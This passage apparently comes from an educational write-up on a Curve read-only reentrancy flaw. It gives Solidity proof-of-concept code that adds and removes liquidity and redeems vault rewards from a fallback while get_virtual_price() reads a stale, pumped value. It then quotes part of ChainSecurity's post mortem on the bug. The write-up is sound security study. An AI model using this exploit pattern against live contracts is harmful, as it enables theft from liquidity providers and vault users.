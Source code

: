 ```
function attack() external payable {
    uint[2] memory amounts = [msg.value, 0];
    uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);

    uint[2] memory min_amounts = [uint(0), uint(0)];
    pool.remove_liquidity(lp, min_amounts);
}
```

* Because the totalSupply is not updated yet, now in the fallback the `get_virtual_price()` view function will return the PUMPED price. (stale value) As a result, the attacker is redeeming rewards at higher price than he should, due to the vault relying blindly on the price feed

```
receive () external pavable {
    uint reward = vault.redeemRewards();
}
```

* Test output

<img src="real-output.jpeg" width="400" >


### Curve LP Oracle Manipulation: Post Mortem

> From https://chainsecurity.com/curve-lp-oracle-manipulation-post-mortem/

On April 14, we informed Curve and affected projects about a read-only reentrancy vulnerability in some Curve pools. More specifically, the value of function get_virtual_price can be manipulated by reentering it during the removal of liquidity. Now, since all teams secured their projects, we are happy to share the technical details.

#### Background
Curve is an automated market maker (AMM). These allow users to trade against a liquidity pool that is funded by liquidity providers (LPs) who in turn collect fees on the trades. Similar to other DeFi projects, Curve wraps this funding in a yield-bearing wrapper asset, a so-called LP token, which represents a share in a liquidity pool. When shares are redeemed, users receive the underlying assets proportionally. Curve v1 innovated AMMs for pegged assets (e.g. USDC/DAI/USDT or ETH/stETH) with their stable swap pools. These pools allow swapping assets that are valued roughly the same with low slippage according to the stable swap invariant described in the [Curve stable swap paper](https://classic.curve.fi/files/stableswap-paper.pdf).
